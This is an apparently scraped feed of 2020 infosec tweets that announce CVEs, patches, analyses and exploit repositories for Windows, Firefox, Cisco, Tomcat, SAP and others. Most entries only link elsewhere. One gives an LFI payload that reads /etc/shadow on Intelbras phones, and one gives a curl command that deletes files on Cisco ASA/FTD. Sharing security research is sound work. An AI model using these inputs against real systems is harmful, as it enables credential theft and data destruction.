</blockquote>

* https://github.com/maxpl0it/CVE-2019-17026-Exploit/blob/master/calc.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# maxpl0it
**https://twitter.com/maxpl0it/status/1299068051044921347 _at Thu Aug 27 19:35:33 +0000 2020_**
<blockquote>
Published my exploit for CVE-2019-17026 (Firefox JIT bug):

https://t.co/YeFsnSVYDv

No sandbox escape included but if anybody wants a challenge, chain it with CVE-2020-0674 for a neat sandbox escape on Windows!
</blockquote>

* https://github.com/maxpl0it/CVE-2019-17026-Exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>343</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1298560490197716992 _at Wed Aug 26 09:58:41 +0000 2020_**
<blockquote>
CVE-2020-1380: Analysis of Recently Fixed IE Zero-Day  https://t.co/FKZYgry3BN  #Pentesting #Exploit #Vulnerabilities #CyberSecurity #Infosec https://t.co/Rpc1sNTdzk
</blockquote>

* https://www.trendmicro.com/en_us/research/20/h/cve-2020-1380-analysis-of-recently-fixed-ie-zero-day.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---
# iamelli0t
**https://twitter.com/iamelli0t/status/1298092483407093761 _at Tue Aug 25 02:59:00 +0000 2020_**
<blockquote>
My analysis of the recent Internet Explorer zero-day vulnerability, CVE-2020-1380

https://t.co/qo21pj0xii
</blockquote>

* https://www.trendmicro.com/en_us/research/20/h/cve-2020-1380-analysis-of-recently-fixed-ie-zero-day.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>179</code></td>
</tr></table>

---
# perito_inf
**https://twitter.com/perito_inf/status/1296800192256147456 _at Fri Aug 21 13:23:53 +0000 2020_**
<blockquote>
CVE-2020-1571 : Windows Setup Elevation of Privileges Bypass 0day

Affected Version:
Windows 10 1803/1809/1903/1909/2004

https://t.co/uH5DBVXEhT
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# hackyzh
**https://twitter.com/hackyzh/status/1296687587873230848 _at Fri Aug 21 05:56:26 +0000 2020_**
<blockquote>
Finally,he could rce on windows 2008 successful by CVE-2020-1350.This chain spent him too much time.👍
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# YanZiShuang
**https://twitter.com/YanZiShuang/status/1296679004343164928 _at Fri Aug 21 05:22:20 +0000 2020_**
<blockquote>
#DNS #WindowsServer #CVE #EXPLOIT
DNS 漏洞 CVE-2020-1350 EXPLOIT 新鲜出炉 确定可以导致蠕虫

关于DNS的研究报告在近期可能会分享

堆风水-&gt;堆喷射-&gt;相关数据结构设置-&gt;(利用堆上数据结构任意地址写||信息泄露)-&gt;覆写全局函数指针-&gt;ShellCode 执行 https://t.co/VNfv2CYyrk
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>288</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1296494445769166848 _at Thu Aug 20 17:08:58 +0000 2020_**
<blockquote>
Microsoft issues emergency out-of-band security updates for Windows 8.1, RT 8.1, and Server 2012 R2 systems to patch two recently disclosed privilege escalation bugs (CVE-2020-1530 &amp; CVE-2020-1537) affecting Remote Access Service (RAS).

Read: https://t.co/17sx3z143T

#infosec
</blockquote>

* https://thehackernews.com/2020/08/windows-update-download.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>159</code></td>
<td>Favorites: <code>233</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1296071824657326081 _at Wed Aug 19 13:09:37 +0000 2020_**
<blockquote>
RT @neosysforensics: New blog and new post :)

CVE-2020-1337: my two cents
https://t.co/YxZOdG5rSA

Also in spanish
https://t.co/x08zMvkGSK…
</blockquote>

* https://blog.hiveminds.es/en/posts/cve-2020-1337_my_two_cents/
* https://blog.hiveminds.es/es/posts/cve-2020-1337_mis_dos_centavos/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# neosysforensics
**https://twitter.com/neosysforensics/status/1296045753610182657 _at Wed Aug 19 11:26:01 +0000 2020_**
<blockquote>
New blog and new post :)

CVE-2020-1337: my two cents
https://t.co/YxZOdG5rSA

Also in spanish
https://t.co/x08zMvkGSK

Thx to @h4ng3r and the rest of the crew!
</blockquote>

* https://blog.hiveminds.es/en/posts/cve-2020-1337_my_two_cents/
* https://blog.hiveminds.es/es/posts/cve-2020-1337_mis_dos_centavos/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# ihack4falafel
**https://twitter.com/ihack4falafel/status/1295775079855529984 _at Tue Aug 18 17:30:28 +0000 2020_**
<blockquote>
[Blog] Windows AppX Deployment Service Local Privilege Escalation (CVE-2020-1488) https://t.co/HfsOdyAtKM
</blockquote>

* https://tinyurl.com/yy5va7py

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1295398366239535104 _at Mon Aug 17 16:33:32 +0000 2020_**
<blockquote>
RT @thezdi: Windows Print Spooler Patch Bypass Re-Enables Persistent Backdoor. @HexKitchen details how the patch for CVE-2020-1048 was easi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1294675304871534592 _at Sat Aug 15 16:40:21 +0000 2020_**
<blockquote>
CVE-2020-1571 Windows Setup Elevation of Privileges Bypass 0day  https://t.co/cYoe2PnKZT  #Pentesting #Windows #Vulnerability #CVE #Infosec https://t.co/3H38QKJWA0
</blockquote>

* https://github.com/klinix5/Windows-Setup-EoP

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1293632271749087232 _at Wed Aug 12 19:35:42 +0000 2020_**
<blockquote>
RT @TheHackersNews: Here are technical details for a new Windows Remote Access elevation of privilege #vulnerability (CVE-2020-1530) for wh…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1293609136605675520 _at Wed Aug 12 18:03:46 +0000 2020_**
<blockquote>
Here are technical details for a new Windows Remote Access elevation of privilege #vulnerability (CVE-2020-1530) for which #Microsoft released a security patch yesterday.

https://t.co/QaL3a1DbzC

Advisory: https://t.co/Nsc5X1cc5m

#PatchTuesday https://t.co/QTQajyZluF
</blockquote>

* https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1530

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---
# symeonp
**https://twitter.com/symeonp/status/1293531800325754891 _at Wed Aug 12 12:56:28 +0000 2020_**
<blockquote>
Yesterday's Patch Tuesday included a PhoneBook use-after-free vulnerability (CVE-2020-1530) I reported. I decided to do a step-by-step write up on how I discovered it. It covers some basic sample gathering, harnessing, fuzzing, analysis and exploitation https://t.co/Uvyvy8CqX1
</blockquote>

* https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>157</code></td>
<td>Favorites: <code>350</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1293408837060501505 _at Wed Aug 12 04:47:51 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit  https://t.co/PRJBBTvpRL  #Apache #Java #RCE #Explot #CyberSecurity #Infosec https://t.co/eIK7DCWHAe
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1293262564529508352 _at Tue Aug 11 19:06:37 +0000 2020_**
<blockquote>
Microsoft’s #PatchTuesday updates include patches for two vulnerabilities—CVE-2020-1380 and CVE-2020-1464—being actively exploited. Update ASAP to protect your systems. https://t.co/FEPH4f2y7S #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xfArr

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>113</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1293249558768746496 _at Tue Aug 11 18:14:56 +0000 2020_**
<blockquote>
Windows Print Spooler Patch Bypass Re-Enables Persistent Backdoor. @HexKitchen details how the patch for CVE-2020-1048 was easily bypassed and looks at the new patch released today to fix it. https://t.co/ayeIQC0CQV
</blockquote>

* https://bit.ly/33Qh3go

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>118</code></td>
</tr></table>

---
# FlatL1ne
**https://twitter.com/FlatL1ne/status/1293209434345426945 _at Tue Aug 11 15:35:30 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit

https://t.co/lmFgh6v6Gu
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1293182603751694336 _at Tue Aug 11 13:48:53 +0000 2020_**
<blockquote>
🔥 Watch Out! A new critical #vBulletin zero-day RCE #vulnerability and its PoC exploits have been publicly disclosed, allowing attackers to bypass patch for an old RCE bug (CVE-2019-16759) and remotely compromise sites.

Details — https://t.co/961xiq1BqC

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2020/08/vBulletin-vulnerability-exploit.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---
# BleepinComputer
**https://twitter.com/BleepinComputer/status/1292022789059248128 _at Sat Aug 08 09:00:12 +0000 2020_**
<blockquote>
The FBI warns of Iranian hackers actively attempting to exploit vulnerable F5 Big-IP ADC devices unpatched against the CVE-2020-5902 unauthenticated remote code execution flaw - @serghei
https://t.co/rcwTyZnqE6
</blockquote>

* https://www.bleepingcomputer.com/news/security/fbi-iranian-hackers-trying-to-exploit-critical-f5-big-ip-flaw/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1291184302672158720 _at Thu Aug 06 01:28:21 +0000 2020_**
<blockquote>
CVE-2020-13886 0day INTELBRAS TELEFONE IP TIP200/200 LITE &amp; TIP 300 - Local File Include

[ Proof Of Concept ]
URL parameter -&gt;http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -&gt; ../../../../etc/shadow

https://t.co/fQEOI2WZsF https://t.co/ixlAj26tAM
</blockquote>

* https://github.com/lucxssouza/CVE-2020-13886

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# behindthebreach
**https://twitter.com/behindthebreach/status/1290860109053284353 _at Wed Aug 05 04:00:07 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) - write-up and exploit https://t.co/YygbwhoXTd #vulnerability #collection #execution #cve_2020_9484 #apache #tomcat
</blockquote>

* https://behindthebreach.com/l/46

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---
# peterjson
**https://twitter.com/peterjson/status/1290687541188767745 _at Tue Aug 04 16:34:24 +0000 2020_**
<blockquote>
I have just finished the recent IBM Websphere RCE PoC (CVE-2020-4450). It's a nice chain and after all I have learnt many things! https://t.co/JWRiiy7MEM
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1289705496266641408 _at Sat Aug 01 23:32:06 +0000 2020_**
<blockquote>
[CVE49] Microsoft Windows LNK Remote Code Execution Vulnerability - CVE-2020-1299  https://t.co/R1oLe81oUw  #Windows #Vulnerability #RCE #CVE #LNK #Infosec https://t.co/DTeuz9GZip
</blockquote>

* https://blog.vincss.net/2020/06/cve49-microsoft-windows-lnk-remote-code-execution-vuln-cve-2020-1299-eng.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---
# PentesterLab
**https://twitter.com/PentesterLab/status/1287981604787240960 _at Tue Jul 28 05:21:58 +0000 2020_**
<blockquote>
Two new videos are now available on how to exploit CVE-2020-8163 - A RCE in Ruby-on-Rails: 

https://t.co/BY9XZEnM3i
</blockquote>

* https://pentesterlab.com/exercises/CVE-2020-8163/videos

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1287351763511607296 _at Sun Jul 26 11:39:12 +0000 2020_**
<blockquote>
RT @maxpl0it: SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# _murks
**https://twitter.com/_murks/status/1287328429680074752 _at Sun Jul 26 10:06:29 +0000 2020_**
<blockquote>
Just found out @pwntester took a look at the Nexus Repository Manager vulnerability (CVE-2018-16621) @_schn31d4 and I reported and found a bypass for the fix (https://t.co/OW9I0DTVlv).  He also used CodeQL to perform a Variant Analysis and found more bugs: https://t.co/IQVip2qxM6
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2020-015-nxrm-sonatype
* https://securitylab.github.com/research/bean-validation-RCE

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1286868630194528256 _at Sat Jul 25 03:39:24 +0000 2020_**
<blockquote>
RT @aboul3la: Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# aboul3la
**https://twitter.com/aboul3la/status/1286809567989575685 _at Fri Jul 24 23:44:43 +0000 2020_**
<blockquote>
Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

Example to delete logo file "/+CSCOU+/csco_logo.gif".

POC:
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html https://t.co/BFbDAI9mX2
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>892</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1286574848374906881 _at Fri Jul 24 08:12:01 +0000 2020_**
<blockquote>
RT @Cognosec: Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisc…
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# scr1ptKiddie
**https://twitter.com/scr1ptKiddie/status/1286419238534643712 _at Thu Jul 23 21:53:41 +0000 2020_**
<blockquote>
I just released my #0day research on the Nimbus protocol. Including exploit code for CVE-2020-8010, CVE-2020-8011, and CVE-2020-8012. Check it out here:

https://t.co/ZJntzOKK7H
</blockquote>

* https://github.com/wetw0rk/CA-UIM-Nimbus-Research

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---
# Cognosec
**https://twitter.com/Cognosec/status/1286178945159901185 _at Thu Jul 23 05:58:51 +0000 2020_**
<blockquote>
Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisco https://t.co/CBpMsjwzGk
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---
# ducnt_
**https://twitter.com/ducnt_/status/1285286454910844928 _at Mon Jul 20 18:52:24 +0000 2020_**
<blockquote>
So, here is a gift for you about CVE-2020-6287 SAP RCE exploit :). 
Only user create, no more administrator permission set. 😄

https://t.co/9eXHQF2x3u https://t.co/W5Gp2tEhBI
</blockquote>

* https://github.com/duc-nt/CVE-2020-6287-exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>196</code></td>
<td>Favorites: <code>460</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1285257596501295104 _at Mon Jul 20 16:57:44 +0000 2020_**
<blockquote>
Details and PoC released for a critical remote code execution #vulnerability (CVE-2020-1147) affecting SharePoint Servers that #Microsoft patched just last week with the release of July 2020 Patch Tuesday updates.

https://t.co/LpY241r8XE

via @sourceincite
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>164</code></td>
<td>Favorites: <code>273</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1285225452454502405 _at Mon Jul 20 14:50:00 +0000 2020_**
<blockquote>
SharePoint and Pwn :: Remote Code Execution Against SharePoint Server Abusing DataSet: https://t.co/NiUeuy8oZu

CVE-2020-1147 full analysis and exploit :-&gt;
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>329</code></td>
<td>Favorites: <code>628</code></td>
</tr></table>

---
# BlackBerry
**https://twitter.com/BlackBerry/status/1284488415753277442 _at Sat Jul 18 14:01:17 +0000 2020_**
<blockquote>
Get BlackBerry's detailed analysis of the F5 Big-IP TMUI RCE vulnerability (CVE-2020-5902): https://t.co/Fr0KqHY8GS https://t.co/Ht9Qh0es85
</blockquote>

* https://bit.ly/32vMXhH

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# NSACyber
**https://twitter.com/NSACyber/status/1284103583110234113 _at Fri Jul 17 12:32:06 +0000 2020_**
<blockquote>
CVE-2020-1350 represents significant risk to Windows DNS servers. #Patch or apply the mitigation steps today, you should expect adversaries are hard at work writing exploits for this #vulnerability. Check out our detailed guidance: https://t.co/KUZT1UMEHQ https://t.co/Nlnu4E4ntg
</blockquote>

* https://media.defense.gov/2020/Jul/16/2002458198/-1/-1/0/CSA_CVE20201350-V_1_0%20-%20COPY.PDF

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>148</code></td>
<td>Favorites: <code>228</code></td>
</tr></table>

---
# cry__pto
**https://twitter.com/cry__pto/status/1284086538343714817 _at Fri Jul 17 11:24:22 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit:
https://t.co/LuABYgsYrI 
#Pentesting #Hacking #bugbountytips #RedTeam
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>237</code></td>
<td>Favorites: <code>506</code></td>
</tr></table>

---
# LukasStefanko
**https://twitter.com/LukasStefanko/status/1284033488312832001 _at Fri Jul 17 07:53:34 +0000 2020_**
<blockquote>
0-click RCE via MMS exploit for Samsung's Android OS versions O(8.x), P(9.0) and Q(10.0) #Fuzzing CVE-2020-8899
https://t.co/Qeyq7ACjoN
Demo: https://t.co/VL7eL03SrD https://t.co/ooOGpchF6c
</blockquote>

* https://googleprojectzero.blogspot.com/2020/07/mms-exploit-part-1-introduction-to-qmage.html
* https://youtu.be/ZQnb8kRMkHg

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1283702592879632385 _at Thu Jul 16 09:58:42 +0000 2020_**
<blockquote>
CVE-2020-1300: Remote Code Execution Through Microsoft Windows Cab Files 
https://t.co/IhyNf2OVHf   #Pentesting #RCE #Window #Vulnerability #Infosec https://t.co/zdFfvIzsHs
</blockquote>

* https://www.zerodayinitiative.com/blog/2020/7/8/cve-2020-1300-remote-code-execution-through-microsoft-windows-cab-files

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---
# maxpl0it
**https://twitter.com/maxpl0it/status/1283537179365564417 _at Wed Jul 15 23:01:25 +0000 2020_**
<blockquote>
SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>634</code></td>
</tr></table>

---
# IanColdwater
**https://twitter.com/IanColdwater/status/1283481467956469763 _at Wed Jul 15 19:20:02 +0000 2020_**
<blockquote>
New #Kubernetes CVE-2020-8559: Privilege escalation from compromised node to cluster

You are only affected by this vulnerability if you treat the node as a security boundary, or if clusters share certificate authorities and authentication credentials.

https://t.co/GoQSTpBWJG
</blockquote>

* https://github.com/kubernetes/kubernetes/issues/92914

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---
# maxpl0it
**https://twitter.com/maxpl0it/status/1283471692006920193 _at Wed Jul 15 18:41:11 +0000 2020_**
<blockquote>
CVE-2020-1350 DoS

The hardest part of this was setting up domains! https://t.co/Aut92cJB5o
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>136</code></td>
<td>Favorites: <code>414</code></td>
</tr></table>

---
# straight_blast
**https://twitter.com/straight_blast/status/1283466024109527040 _at Wed Jul 15 18:18:40 +0000 2020_**
<blockquote>
